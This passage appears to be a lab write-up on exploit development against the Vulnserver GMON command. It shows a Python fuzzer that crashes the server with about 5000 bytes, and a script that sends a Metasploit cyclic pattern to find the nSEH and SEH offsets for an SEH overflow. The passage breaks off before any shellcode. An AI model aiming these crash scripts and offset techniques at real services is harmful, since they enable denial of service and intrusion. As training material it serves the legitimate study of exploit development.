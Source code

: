 ## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```GMON /.``` which is made up of ```7 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat fuzzing.py      
import socket, sys
from time import sleep
payload=b"A"*500
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"GMON /."+payload))
        sleep(5)
        payload=payload+b"A"*500
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit() 
```

By running this script we will be crashing our server at a buffer size of ```nearly 5000 bytes```

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 fuzzing.py
Fuzzing crashed at 5000 bytes
```

Still, we are not sure about the approximate buffer space data need to create an overflow and offsets of ```nSEH``` and ```SEH```

## Finding offsets

By finding offset, we can locate the approximate buffer space size and nSEH & SEH offsets

To find the offset, we need to create a pattern and crash the program, so that the value in the registers/SEH can be used to find the offset

To create a pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 5100
<GENERATED PATTERN>
```

Fuzzing with the created pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat offset.py       
import socket, sys
payload=b"<GENERATED PATTERN>"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 offset.py  
```

